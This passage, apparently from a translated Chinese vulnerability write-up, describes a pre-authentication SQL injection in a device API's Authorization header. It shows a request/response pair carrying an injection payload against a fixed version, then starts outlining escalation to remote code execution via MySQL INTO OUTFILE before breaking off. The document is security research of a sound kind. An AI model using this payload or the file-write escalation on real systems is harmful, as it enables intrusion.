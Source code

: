   
为了帮助理解，这里展示了一个已修复版本中的请求/响应对：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibphZ8tqSibplOpPYZJmL6NelotfxaAKeyUiaCicZaDvPeic8b82ZZVerHCg/640?wx_fmt=png&from=appmsg "")  
  
HTTP 请求：  

```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'or'1'='1
```

  
HTTP 响应 (HTTP response):  

```
HTTP/1.1 401 Unauthorized
Date: Thu, 10 Jul 2025 17:20:50 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Content-Security-Policy: script-src 'self'; default-src 'self'; style-src 'self' 'unsafe-inline'; font-src 'self'; img-src 'self' data:; connect-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'self'; upgrade-insecure-requests; block-all-mixed-content;
X-Content-Type-Options: nosniff
Content-Length: 0


```

  
注意：我们观察到围绕 CVE-2025-5777 分析产生的漏洞检测相关争议和大量 PR - 请保持冷静，不要过度反应。  
# 从预认证 SQL 注入到预认证远程代码执行  
  
预认证 SQL 注入 (SQL Injection) 确实有趣，但我们看起来像是那些在"报告时间"前需要"验证"漏洞的渗透测试顾问吗？  
  
现在，真正的挑战开始了 - 我们能否将这个 MySQL 注入升级为远程代码执行 (Remote Command Execution)？  
  
为了找到答案，我们翻开 MySQL 漏洞利用的古老卷轴，重温一项经典技术：**INTO OUTFILE**  
语句。  
  
简单回顾一下，
```
INTO OUTFILE
```

  
为我们提供了一个任意文件写入原语 (arbitrary file write primitive)，允许我们直接将文件写入目标文件系统。  
  
MySQL 官方文档是这样描述的：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibw9SVDficxk6LibMzPQGFibSawogQg7QwXmt6dGZEBjI6m5X9wB4egNMXQ/640?wx_fmt=png&from=appmsg "")  
  
使用 
```
INTO OUTFILE
```
